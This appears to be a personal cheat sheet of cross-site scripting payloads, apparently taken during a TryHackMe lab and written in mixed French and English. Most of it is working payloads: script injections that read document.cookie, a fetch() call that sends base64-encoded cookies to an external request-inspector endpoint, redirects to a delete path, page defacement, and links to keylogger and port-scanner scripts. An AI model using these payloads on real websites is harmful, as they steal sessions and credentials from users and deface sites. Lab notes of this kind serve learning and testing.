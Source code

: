 # XSS Cross Site Scripting

Le payload peut être écrit en Javascript, VBScript, Flash and CSS.  
## Check this GitHub
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
On peut retrouver des payloads sur XSS-Payloads.com

##### Une connaissance de JavaScript est plus qu'utile



## Common Payloads :

### Popup's :
<script>alert(“Hello World”)</script>
- Creates a Hello World message popup on a users browser.
sinon :  <iframe src="javascript:alert(`xss`)"> 

### Get hostname
In Javascript window.location.hostname will show your hostname :
<script>alert(“window.location.hostname”)</script>

### Get cookies
Cookies :
<script>alert(document.cookie);</script>


### Writing HTML (document.write) 
- Override the website's HTML to add your own (essentially defacing the entire page).


### XSS Keylogger 
(http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) 
- You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.


### Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) 
- A mini local port scanner (more information on this is covered in the TryHackMe XSS room).


# Reflexcted XSS : Client-Side -> URL bar

http://10.10.186.74/#/track-result?id=<iframe src="javascript:alert(`xss`)">


<script>fetch('https://requestinspector.com/inspect/01gkc0pj9dad25nw3twvkf96hk?cookie=' + btoa(document.cookie));</script>


## REDIRECTION DEPUIS L'URL :
<script>window.location='URL'</script>

## REDIRECTION DEPUIS UN BOUT DU SITE
<script>window.location='/delete/3'</script>



## DEFACING THE PAGE
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
où thm-title est l'id. Ici, c'était un span du genre
<span id='thm-title'>kenjf</span>
